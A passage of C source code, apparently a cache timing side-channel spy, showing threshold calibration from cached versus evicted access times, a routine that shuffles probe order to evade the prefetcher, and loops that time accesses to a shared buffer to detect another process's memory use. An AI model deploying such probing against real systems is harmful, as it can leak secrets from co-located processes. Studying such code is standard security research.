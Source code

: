 ```
  total_evict=total_evict/TOTAL_TESTS;
  printf("avg cached=0x%x\n",(int)total_access);
  printf("avg evicted=0x%x\n",(int)total_evict);
  
  threshold= (int)(total_evict*0.5+total_access*0.5);
}

//lets shuffle the order to avoid prefetcher preditcion
void randomize(unsigned char *string){

	size_t len=strlen(string);
	int random;
	char tmp;
	for(int i=0;string[i]!='\0';i++){
	  random=rand()%len;
	  tmp=string[i];
	  string[i]=string[random];
	  string[random]=tmp;
	  if (i >2){
	    if((string[i]-string[i-1])<2){
	      i--;
	      
	    }
	  }
	
	}


}
void watch(wchar_t *base,unsigned char *set,int *output){

	register unsigned j,i;
	register unsigned used;
	register unsigned long time_fast;

	j=0;
	while (j<PROBE_AMMOUNT){
	  
	  for (i=0;set[i]!='\0';i++){
		used=set[i]-'-';

		time_fast=probe_timing((char *)(&base[G*used]));
	 	if(time_fast < threshold ){
			output[used]++;
			j++;
		}
		
	  }

	}
}
void watchOrder(wchar_t *base,unsigned char *set,char *output){

	register unsigned j,i;
	register unsigned used;
	register unsigned long time_fast;

	j=0;
	while (j<PROBE_AMMOUNT_ORDER){
	  
	  for (i=0;set[i]!='\0';i++){
		used=set[i]-'-';

```